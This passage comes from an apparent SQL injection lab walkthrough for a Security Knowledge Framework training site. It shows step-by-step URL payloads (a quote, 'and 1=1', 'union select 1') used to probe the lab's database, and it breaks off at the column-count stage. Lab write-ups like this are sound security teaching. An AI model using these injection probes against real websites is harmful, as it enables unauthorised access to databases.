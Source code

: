 ![](https://i.imgur.com/C3IOlGg.png)
    
</center>

For example, try adding `/home/1 `gives us  new web page
```
https://sqli-b6447ae1-c291-4587-bd37-76354d8698cf.securityknowledgeframework-labs.org/home/1
```

<center>

![](https://i.imgur.com/b83Kae6.png)

</center>

The whole process of the SQL injections attack is process of trying to add new symbols in `URL`, with the continuous investigation of responses
Next step to add `'` at the end

```
https://sqli-b6447ae1-c291-4587-bd37-76354d8698cf.securityknowledgeframework-labs.org/home/1'
```

We got an error of adding 1 unexpected symbol

<center>

![](https://i.imgur.com/7pr4HKE.png)
    
</center>

Next, trying to add logical opearion in the query

```
https://sqli-b6447ae1-c291-4587-bd37-76354d8698cf.securityknowledgeframework-labs.org/home/1%20and%201=1
```

This gives us an error, of failure of logical computation

<center>

![](https://i.imgur.com/FS8EYns.png)
    
</center>


we will be using union operator `UNION` to join a query, in such manner we will obtain information and display it on the web page
First in ber of `UNION` is amount of columns
The first try is unsuccessful

```
https://sqli-b6447ae1-c291-4587-bd37-76354d8698cf.securityknowledgeframework-labs.org/home/1%20union%20select%201
```

<center>

![](https://i.imgur.com/W8ybCK0.png)
    